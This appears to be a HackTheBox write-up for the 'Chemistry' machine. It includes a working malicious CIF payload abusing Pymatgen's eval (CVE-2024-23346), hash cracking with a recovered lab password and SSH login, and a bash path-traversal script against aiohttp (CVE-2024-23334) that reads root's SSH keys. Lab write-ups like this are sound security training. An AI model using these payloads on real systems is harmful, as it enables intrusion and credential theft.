

# Chemistry

**Category:** Machine
**Difficulty:** Easy
**Platform:** HackTheBox

## Machine Description

Chemistry is a web application that allows users to view CIF (Crystallographic Information File) files in a convenient format. CIF is a standard text format used for storing and exchanging data about crystal structures, particularly in crystallography and materials science.

## Initial Reconnaissance

### Port Scanning

```bash
nmap -p- --min-rate 2000 -sV -sC $target
```


**Scan Results:**
- **Port 22:** SSH service
- **Port 5000:** HTTP service running Werkzeug 3.0.3 on Python 3.9.5

The Python-based architecture immediately suggested potential attack vectors related to library vulnerabilities. After researching Python libraries commonly used for CIF file processing, I discovered a critical vulnerability in the Pymatgen library: [CVE-2024-23346](https://nvd.nist.gov/vuln/detail/CVE-2024-23346).

> **Pymatgen (Python Materials Genomics)** is an open-source Python library for materials analysis. A critical security vulnerability exists in the `JonesFaithfulTransformation.from_transformation_str()` method within versions prior to 2024.2.20. This method insecurely utilizes `eval()` for processing input, enabling arbitrary code execution when parsing untrusted input.

### Web Content Enumeration

```bash
feroxbuster --redirects --smart --url http://chemistry.htb:5000
```


The application provided a `static` folder containing an `example.cif` file, allowing users to understand the expected file format.

## Exploitation

### Step 1: Pymatgen Vulnerability Analysis (CVE-2024-23346)


**Environment Setup:**
```bash
# requirements.txt
pymatgen==2024.1.26
```

**Proof of Concept Script:**
```python
from pymatgen.io.cif import CifParser
parser = CifParser("exploit.cif")
structure = parser.parse_structures()
```

**Malicious CIF Payload:**
```cif
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'touch pwned\'");0,0,0'
_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

**Payload Analysis:**
The exploit leverages Python's `eval()` function within the Pymatgen library. The payload:

1. **Uses Python introspection** to access the `BuiltinImporter` class
2. **Loads the `os` module** dynamically  
3. **Executes arbitrary commands** via `os.system()`

**Payload Breakdown:**
- `().__class__.__mro__[1]` → Accesses the `type` class
- `__getattribute__()` → Retrieves the `__subclasses__` method
- `BuiltinImporter` → Used to dynamically load modules
- `os.system()` → Executes shell commands

### Step 2: Remote Exploitation

The exploitation process involved:

1. **Crafting a malicious CIF file** with embedded Python code
2. **Uploading through the web interface** to trigger the vulnerability
3. **Establishing initial access** to the system


### Step 3: Post-Exploitation Enumeration

During system exploration, I discovered:
- A SQLite database containing user credentials
- The application configuration in `/home/app/app.py`
- A user account named "rosa"


**Application Configuration:**
```python
app = Flask(__name__)
app.config['SECRET_KEY'] = 'MyS3cretCh3mistry4PP'
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///database.db'
app.config['UPLOAD_FOLDER'] = 'uploads/'
app.config['ALLOWED_EXTENSIONS'] = {'cif'}
```

### Step 4: Database Extraction


The database contained MD5-hashed passwords. Using hash identification tools and hashcat with the rockyou wordlist, I successfully cracked the hash for user "rosa":


**Hash Cracking:**
```bash
hashcat creds.hashes /usr/share/wordlists/rockyou.txt.gz --username -m 0 --quiet --show
```


**Extracted Credentials:**
```plaintext
rosa:63ed86ee9f624c7b14f1d4f43dc251a5:unicorniosrosados
```

### Step 5: User Access

Successfully established SSH access using the cracked credentials and obtained the user flag.

```bash
sshpass -p 'unicorniosrosados' ssh -y rosa@chemistry.htb
```


## Privilege Escalation

### Service Enumeration

Further investigation revealed a monitoring service running on port 8080 with root privileges. The service was identified as `aiohttp/3.9.1`.




### LFI Vulnerability Discovery

Research identified [CVE-2024-23334](https://nvd.nist.gov/vuln/detail/CVE-2024-23334), a critical Local File Inclusion vulnerability affecting this version of aiohttp.


### Final Exploitation

Using a Local File Inclusion script, I was able to access sensitive system files and ultimately obtain the root flag.


**LFI Exploitation Script:**
```bash
#!/bin/bash

url="http://host.docker.internal:8080"
string="../"
payload="/assets/"
file="root/.ssh/authorized_keys" # without the first /

for ((i=0; i<15; i++)); do
    payload+="$string"
    echo "[+] Testing with $payload$file"
    status_code=$(curl --path-as-is -s -o /dev/null -w "%{http_code}" "$url$payload$file")
    echo -e "\tStatus code --> $status_code"
    
    if [[ $status_code -eq 200 ]]; then
        curl -s --path-as-is "$url$payload$file"
        break
    fi
done
```


## Tools Used

- **Nmap** - Port scanning and service enumeration
- **Directory enumeration tools** - Web content discovery
- **Python** - Payload development and testing
- **Pymatgen library** - Target vulnerable component
- **Hashcat** - Password cracking
- **SQLite3** - Database extraction

## Summary

[Chemistry has been Pwned](https://www.hackthebox.com/achievement/machine/2245732/631)

The machine was successfully compromised through exploitation of CVE-2024-23346 in the Pymatgen library, allowing arbitrary code execution via malicious CIF file processing, followed by privilege escalation through CVE-2024-23334 in the aiohttp service.
